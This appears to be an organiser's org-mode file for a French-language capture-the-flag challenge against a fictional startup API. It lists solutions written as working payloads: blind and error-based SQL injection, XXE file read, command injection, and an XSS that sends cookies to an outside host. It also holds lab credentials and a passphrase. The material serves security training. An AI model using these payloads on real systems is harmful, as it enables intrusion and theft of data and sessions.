 * Compagnies
** Startup 1 — WTIIaaS
   - What Time Is It as a Service
   - Interface pour avoir l'heure
*** Flags
    - Trouver la liste de email des employés pour du spear phishing
      - Il faut écrire un script de parsing
    - 
    
** Startup 2 — Dawg
   - Comme Bro dans Silicon Valley
   - Les users peuvent payer pour envoyer des « Super Dawg »
     - Et donc, carte de crédits disponibles

* Solutions
** DONE Blind SQL injection API key leak
   CLOSED: [2017-02-25 Sat 01:12]
   <key>' or (5=substr((select key_guid from apikeys limit 1,1),2,1) and sleep(1)) #</key>
** DONE XXE
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, free action `getTime' is vulnerable to XXE
<?xml version="1.0"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/api/api.php" >]>
<WTIIaaS>
  <identity>
    <key>&xxe;</key>
  </identity>
  
  <query action="getTime"/>
</WTIIaaS>
        
** DONE RCE (Command injection) — Requires premium API key to have leaked beforehand, possible through various means
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, premium action `getTimeWithFormat' is vulnerable to a command injection in the `format' field
<?xml version="1.0"?>
<WTIIaaS>
  <identity>
    <key>85922064</key>
  </identity>
  
  <query action="getTimeWithFormat" format='%m";id;f="' />
</WTIIaaS>

** DONE Password dump
   CLOSED: [2017-02-25 Sat 01:12]
| Christia | Shore | shore.christia@wtiiaas.csg | f6432274349b5cb93433f8ed886a3f37 | winter |
Password reuse on pastebin, indexed @ http://pastebin.com/EFxqS501, uploaded Fri Feb 24 21:19:26 EST 2017
One of the ways to get to the intranet

** DONE INSERT SQLi in User-Agent ("logging" mechanism)
   CLOSED: [2017-02-25 Sat 01:13]
*** POC
   User-Agent: ' or extractvalue(1,concat(0x7e,(SELECT * from flag limit 0,1))) or '
   
   CSG_SomeThingsAreStrange
*** SQL login → logging:JF8KI4iYQWNbjWtn

** DONE Login as the CEO
   CLOSED: [2017-03-01 Wed 23:14]
*** Need PoC
    <img id=f src=x /><script>var elem=document.getElementById('f');elem.src="http://192.168.0.199:8080/"+document.cookie;</script>
** In Process Extract the banking info from /home/sysadmin/banking.txt.pgp
   From a RCE, proceed to privilege escalate and extract the key from .bash_history
*** Decrypted file content
    Bank account
    ------------
    SWIFT/BIC: FLAG-US-35-A9F
    Password : HS9;~7HP9P@tYm;8nvo[|mL;:D%BwUh5-X'0!v%I
    
* Todos
** TODO Make mysql start automatically
** TODO Fix images in team (CFO/CTO)
** TODO Make API documentation in HTML
** TBD Make employees.php page
** DONE Index a database dump [identitygenerator.py] → 
   CLOSED: [2017-02-24 Fri 21:18]
** DONE Make intranet login
   CLOSED: [2017-02-25 Sat 00:21]
** DONE Add User-Agent sql injection
   CLOSED: [2017-02-25 Sat 01:10]
** DONE Implement a messaging system
   CLOSED: [2017-02-25 Sat 18:11]
** Implement a XSS bot for the CEO's account
** WONTFIX Make the instructions HTML
** Privilege escalation from RCE
   Bash crontab running as sysadmin, banking file is owned by sysadmin
** DONE Generate PGP file with banking info
   CLOSED: [2017-03-01 Wed 22:13]
*** Command
    $ gpg --batch --yes --passphrase "@\!YOUcantGUESSthis#@\!" --output banking.txt.pgp --symmetric banking.txt
** In Process Clean database before export
** DONE Make app use dedicated SQL user (nonroot)
   CLOSED: [2017-03-02 Thu 00:47]
** TODO Fix Dockerfile
** TODO Modify root password from ENV variable that will be set when container is RUN
* Instructions
Camarades, l'heure est grave. Les écrits du camarade Mao s'avèrent véridique: l'impérialisme de l'Ouest prend notre patrie en otage! Voilà pourquoi nous avons créés une unité super-méga-secrète qui nous permettera de partir en cyber-guerre contre ces américains assoiffés de profit! Ces jeunes programmeurs milliardaires de 20 ans causent un embarras incomensurable à la patrie, nous nous devons de lutter!

Votre mission est de vous infiltrer dans le parc informatique d'une startup « high-tech » américaine et d'exfiltrer un maximum d'information. Cette informatoin sera ensuite relayée au politburo du Comité central du parti Communiste.

Vos tâches:
- Obtenir la liste complète des employés
  - employees.txt
  - Nom, prénom, password
    
- Trouver le mot de passe du CEO
  - CEO-pass.txt
  - Mot de passe en clair, hashé = moitié des points
    
- Obtenir de l'exécution de code sur le serveur web
  - code-exec.txt
    - Instruction pour reproduire l'exécution de code (quelques lignes avec preuve de concept (PoC))
    
- Obtenir 
  
- Obtenir les privilèges `root' sur le serveur
  - Remise: rootwriteup.txt

- Quelques flags sont cachés sur le serveur.
  - flags.txt
    - Format: CSG_[a-zA-Z]+

  et votre patrie a besoin de vous afin de regagner du terrain sur l'économie mondiale. Ces damnés capitalistes de l'ouest nous mennent une lutte d'innovation sans relâche et semblent tous être  américains 

 votre patrie a besoin de vous. 

